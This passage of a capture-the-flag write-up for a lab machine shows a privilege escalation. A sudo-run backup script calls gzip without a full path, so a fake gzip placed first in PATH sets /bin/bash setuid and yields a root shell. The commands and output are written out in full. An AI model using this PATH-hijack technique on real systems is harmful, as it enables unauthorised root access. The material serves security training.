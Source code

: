 ```bash
# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```
Now we can create a `gzip` file containing `chmod 4755 /bin/bash` and export `$PATH` with this new value:  
```bash
m4lwhere@previse:~$ vi gzip
m4lwhere@previse:~$ chmod +x gzip 
m4lwhere@previse:~$ ls
gzip  user.txt
m4lwhere@previse:~$ export PATH=$(pwd):$PATH
m4lwhere@previse:~$ echo $PATH
/home/m4lwhere:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh                                                                                                                                                                                     
m4lwhere@previse:~$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
m4lwhere@previse:~$ bash -p
bash-4.4# id
uid=1000(m4lwhere) gid=1000(m4lwhere) euid=0(root) groups=1000(m4lwhere)
```
and we have a root shell
